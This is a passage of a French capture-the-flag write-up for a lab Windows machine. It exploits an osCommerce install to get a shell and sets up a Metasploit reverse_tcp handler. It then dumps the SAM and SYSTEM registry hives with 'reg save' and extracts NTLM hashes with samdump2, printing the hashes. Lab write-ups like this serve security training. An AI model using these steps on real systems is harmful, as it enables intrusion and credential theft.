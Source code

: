 ça marche !

Démarrage de Netcat

http://target.thm:8080/oscommerce-2.3.4/catalog/install/includes/exploit.php


Bingo, on a un shell !


Test de revershell avec metasploit + meterpreter


msf5> use exploit/multi/handler
msf5> set payload windows/shell/reverse_tcp
msf5> set lhost tun0
msf5> set lport 4242
msf5> run

Try #1: FAILED

Try #2: sessions OK, upgrade to meterpreter : FAILED

OK, donc pas de meterpreter, a l'ancienne !

### poorman hashdump

https://superuser.com/questions/364290/how-to-dump-the-windows-sam-file-while-the-system-is-running

Utilisation de la commande systeme `reg` pour dumper la base de registre.

reg save hklm\sam C:\xampp\htdocs\sam.dmp
reg save hklm\system C:\xampp\htdocs\system.dmp

```ps1
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\Temp>reg save hklm\sam C:\xampp\htdocs\sam.dmp
reg save hklm\sam C:\xampp\htdocs\sam.dmp
The operation completed successfully.

C:\Windows\Temp>reg save hklm\system C:\xampp\htdocs\system.dmp
reg save hklm\system C:\xampp\htdocs\system.dmp
The operation completed successfully.

C:\Windows\Temp>
```

Extraction des hash

```sh
kali@kali:~/thm/blueprint$ samdump2 system.dmp sam.dmp 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```

Et le flag ?
